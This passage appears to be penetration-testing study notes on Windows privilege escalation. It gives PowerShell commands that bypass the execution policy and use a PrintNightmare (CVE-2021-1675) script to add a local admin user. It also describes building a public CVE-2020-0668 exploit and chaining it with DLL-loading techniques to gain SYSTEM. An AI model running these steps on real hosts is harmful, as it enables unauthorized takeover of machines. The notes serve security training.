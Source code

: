 First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host.

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

Now we can import the PowerShell script and use it to add a new local admin user.

```powershell
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

**Confirming New Admin User**

```powershell
net user hacker
```

### Kernel Elevation of Privilege Vulnerability (CVE-2020-0668)

The [Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/) consist in exploing an arbitrary file move vulnerability leveraging the Windows Service Tracing. Service Tracing allows users to troubleshoot issues with running services and modules by generating debug information. Its parameters are configurable using the Windows registry. Setting a custom MaxFileSize value that is smaller than the size of the file prompts the file to be renamed with a **.OLD** extension when the service is triggered. This move operation is performed by **NT AUTHORITY\SYSTEM**, and can be abused to move a file of our choosing with the help of mount points and symbolic links.

**Checking Current User Privileges**

```shell
whoami /priv
```

![[Esempio_CVE-2020-0668_1.png]]

**After Building Solution**

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```shell
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.
